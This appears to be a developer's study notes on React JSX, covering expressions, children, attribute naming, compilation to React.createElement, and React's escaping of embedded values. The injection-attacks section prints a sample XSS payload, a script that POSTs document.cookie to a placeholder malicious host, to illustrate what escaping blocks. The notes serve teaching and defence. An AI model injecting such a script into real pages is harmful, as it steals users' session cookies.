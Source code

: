 # JSX (Javascript XML) :-

-   JSX is neither a string nor HTML. It is a template language, but with the full power of JavaScript.

```js
const element = <h1>Hello, world!</h1>;
```

## why JSX :-

-   Instead of artificially separating technologies by putting markup and logic in separate files, `React separates concerns with loosely coupled units called “components” that contain both`.
    -   `Separation of concern`:
        -   Separation of concerns is a software engineering principle that aims to divide a system into distinct and independent parts, each responsible for a specific concern or functionality.
    -   `In React, components are self-contained units that encapsulate both the markup (or JSX) and the logic associated with that specific part of the user interface`:
        -   This means that the code for a component, including its visual representation and behavior, is contained within a single file.
        -   By combining markup and logic within components, React promotes the idea of having a single source of truth for each UI component.
        -   This allows developers to manage and reason about the component's state, behavior, and appearance in a more cohesive(Self-contained and have minimal dependencies on other modules/components) and efficient manner.

## Embedding Expressions in JSX :-

-   eg 1 :-

```js
const name = 'Nikhil Gautam';
const element = <h1>Hello, {name}</h1>;
```

-   We can put any valid JavaScript expression inside the curly braces in JSX. For example, (2 + 2), user.firstName, or formatName(user) are all valid JavaScript expressions.

-   eg 2 :-

```js
function formatName(user) {
    return user.firstName + ' ' + user.lastName;
}

const user = {
    firstName: 'Nikhil',
    lastName: 'Gautam',
};

const element = <h1>Hello, {formatName(user)}!</h1>;
```

-   eg 3 :-

```js
const element = <a href="https://www.reactjs.org"> link </a>;
```

-   eg 4 :-

```js
const element = <img src={user.avatarUrl}></img>;
```

**_NOTE: React DOM uses camelCase property naming convention instead of HTML attribute names.`class` becomes `className` in JSX, and `tabindex` becomes `tabIndex`._**

## Specifying Children with JSX :-

-   eg 1 :-

```js
const element = (
    <div>
        <h1>Hello!</h1>
        <h2>Good to see you here.</h2>
    </div>
);
```

## JSX Prevents Injection Attacks :-

-   By default, React DOM escapes values embedded in JSX to prevent `XSS (cross-site scripting) attacks`.

-   React automatically converts them to a string and escapes any characters that have special meaning in HTML. This means that any potentially dangerous characters, such as <, >, &, ', and ", are replaced with their corresponding HTML entities.

-   eg 1 :-

```js
const user = '<script>alert("XSS");</script>';
const element = <p>{user}</p>;

// React DOM will escape the value of the user variable before rendering it, resulting in the following rendered HTML:

<p>&lt;script&gt;alert("XSS");&lt;/script&gt;</p>;
```

-   By escaping the value, the potentially malicious script tags and code are treated as plain text and not executed as actual JavaScript. This protects against XSS attacks where an attacker attempts to inject and execute malicious code within the rendered HTML.

-   It's important to note that while React provides this built-in protection against XSS attacks, it's still crucial to follow other security best practices, such as proper input validation and sanitization on the server-side, to ensure a robust security posture for your application.

-   Here's an example of a malicious code that could be injected in a user input field and potentially executed if not properly escaped or sanitized:

```js
<script>
  fetch('https://malicious-website.com/steal-data', {
    method: 'POST',
    body: JSON.stringify({ data: document.cookie }),
    headers: {
      'Content-Type': 'application/json'
    }
  });
</script>
```

    - In this example, an attacker tries to inject a <script> tag that performs an HTTP POST request to a malicious website, sending the user's cookies as the payload. If this script is injected and executed on a vulnerable website, it can lead to unauthorized access and data theft.

    - However, when using React with proper escaping, the injected code will be treated as plain text and rendered as such, preventing the script from executing.

## JSX Represents Objects :-

-   Babel compiles JSX down to `React.createElement()` calls.
-   These two examples are identical:

```js
const element = <h1 className="greeting">Hello, world!</h1>;
```

```js
const element = React.createElement(
    'h1',
    { className: 'greeting' },
    'Hello, world!'
);
```

-   `React.createElement()` performs a few checks to help you write bug-free code but essentially it creates an object like this:

```js
// Note: this structure is simplified
const element = {
    type: 'h1',
    props: {
        className: 'greeting',
        children: 'Hello, world!',
    },
};
```

-   These objects are called “React elements”. You can think of them as descriptions of what you want to see on the screen. React reads these objects and uses them to construct the DOM and keep it up to date.
